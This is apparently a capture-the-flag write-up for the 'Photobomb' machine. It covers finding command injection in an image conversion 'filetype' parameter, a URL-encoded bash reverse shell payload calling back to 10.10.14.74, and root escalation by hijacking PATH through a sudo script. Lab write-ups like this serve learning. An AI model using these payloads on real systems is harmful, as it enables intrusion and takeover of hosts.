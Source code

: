 # Photobomb box

## enum

the web for printing image with input
- img name: LFI
- run exiftool with the output image (printed img). We see an intersting info that Little CMS. It has LFI vul in searchsploit. but current web run on ruby, not php. That maybe it not work.
- type, size: command injection
- i try to do an command injection. that I change the file type to `filetype=png.txt`.
	- then the output file is .txt file. And hint to me that the web use `ImageMagick` to convert images.
	- test command injection
		- make python http server listen
			```bash
			python3 -m http.server 81
			```
		- request with
			```
			filetype=png`curl+http://MyIP:81`
			```
		- -> we recieve request.


## user

- get rev-shell with bash command (***remember to url encode your payload. I lost many time to try many shell, and figure out that I need to encode the payload :D***):
		```
		filetype=png`bash -c 'exec+bash+-i+%26>/dev/tcp/10.10.14.74/81+<%261'`
		```
- we get `wizard@photobomb` with the reverse shell.


## pri-esc

- list out command run with sudo with:
	```bash
	sudo -l
	```
	```
	User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
	```
	```sh
	# file: /opt/cleanup.sh
	#!/bin/bash
	. /opt/.bashrc
	cd /home/wizard/photobomb

	# clean up log files
	if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
	then
	/bin/cat log/photobomb.log > log/photobomb.log.old
	/usr/bin/truncate -s0 log/photobomb.log
	fi

	# protect the priceless originals
	find source_images -type f -name '*.jpg' -exec chown root:root {} \;
	```
	- every command use with absolute-path except of find :D. We'll use the PATH technique.
	- but now we run with sudo so we need to do [something more](https://unix.stackexchange.com/questions/83191/how-to-make-sudo-preserve-path).
		```bash
		sudo PATH=`pwd`:$PATH /opt/cleanup.sh
		```
		- we can try this locally with [my test](exploit/pri-esc/test-suPath/)